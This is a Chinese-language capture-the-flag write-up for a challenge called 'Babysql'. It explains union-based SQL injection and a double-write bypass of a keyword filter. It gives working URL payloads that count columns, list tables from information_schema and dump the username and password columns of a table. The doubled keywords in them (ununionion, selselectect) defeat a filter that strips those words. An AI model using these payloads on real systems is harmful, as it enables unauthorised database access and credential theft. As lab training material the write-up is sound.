 # Babysql
## 考察知识点：
### 1.联合注入
### 2.双写绕过

## 首先fuzz一下，看看过滤了什么：

![image](images/64BD0B3B46E64513830BE3100392E912Babysql1.png)

发现输入的select...提示input your username and password,猜测被替换为空

### 尝试使用双写，绕过：
payload:

`?username=admin&password=admin'order by 4--+`

发现or,by被过滤，

`?username=admin&password=admin'oorrder bbyy 4--+`

### 报错，说明存在三个字段

`?username=admin&password='ununionion%20selselectect%20null,database(),user()--+`

![image](images/2488B416C8CB4B3BBBB9982872DC094EBabysql2.png)

### 确定注入点以及回显点

已经知道数据库名了，直接构造查询表名的payload:

`?username=admin&password='ununionion%20selselectect%20null,version(),group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema='geek'--`

![image](images/CCF4AE5CEC2240C9A43DFA2793614D6EBabysql3.png)

此处注意重写where和or

### 构造payload查询b4bsql表内容:

`?username=admin&password='ununionion%20selselectect%20null,version(),group_concat(username,passwoorrd)%20frfromom%20b4bsql--+`

![image](images/A9EF797965F04F3DB041AB7B5712D66FBabysql4.png)

